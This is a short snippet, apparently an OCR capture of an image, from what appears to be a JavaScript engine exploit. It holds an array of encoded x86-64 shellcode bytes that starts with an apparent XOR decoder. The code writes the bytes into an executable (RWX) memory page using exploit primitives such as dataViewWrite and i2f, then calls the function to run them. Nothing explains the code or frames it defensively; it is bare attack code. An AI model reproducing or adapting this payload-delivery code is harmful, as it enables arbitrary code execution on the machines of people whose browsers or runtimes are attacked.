 ```


var shellcode=[72, 49, 201, 72, 129, 233, 247, 255, 255, 255, 72, 141, 5, 239, 255, 255, 255, 72, 187, 124, 199, 145, 218, 201, 186, 175, 93, 72, 49, 88, 39, 72, 45, 248, 255, 255, 255, 226, 244, 22, 252, 201, 67, 129, 1, 128, 63, 21, 169, 190, 169, 161, 186, 252, 21, 245, 32, 249, 247, 170, 186, 175, 21, 245, 33, 195, 50, 211, 186, 175, 93, 25, 191, 225, 181, 187, 206, 143, 25, 53, 148, 193, 150, 136, 227, 146, 103, 76, 233, 161, 225, 177, 217, 206, 49, 31, 199, 199, 141, 129, 51, 73, 82, 121, 199, 145, 218, 201, 186, 175, 93];
dataViewWrite(i2f(rwxAddr+0x12), shellcode);

func();
```


